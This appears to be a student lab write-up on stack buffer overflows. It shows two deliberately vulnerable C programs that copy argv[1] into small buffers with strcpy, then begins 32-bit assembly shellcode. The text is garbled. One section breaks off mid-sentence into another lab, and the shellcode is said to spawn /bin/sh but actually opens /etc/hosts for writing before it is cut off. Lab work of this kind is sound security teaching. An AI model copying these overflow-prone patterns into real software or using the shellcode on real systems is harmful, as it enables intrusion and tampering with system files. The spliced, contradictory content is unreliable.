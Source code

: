 # Lab #1,22110026,Le Huy Hoang
# Task 1: Software buffer overflow attack
## Compiling the code
*Given the code below*
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
Now, we have to execute it as # Code injection using Buffer Overflow

```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[64];
    if (argc == 1)
        printf("missing argument\n");
    else
        strcpy(buf, argv[1]);
    printf("buf: 0x%x\n", (unsigned int)buf);
    return 0;
}
```

Target: Inject a snippet of code into the program. In this lab, we will inject a snippet of assembly code to spawn a new shell.

## 1. Write shellcode

### 1.1. Write shellcode

We will write a program in assembly language. This program will spawn a new shell `/bin/sh`. The program is saved as `shellcode.asm`.

```assembly
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
```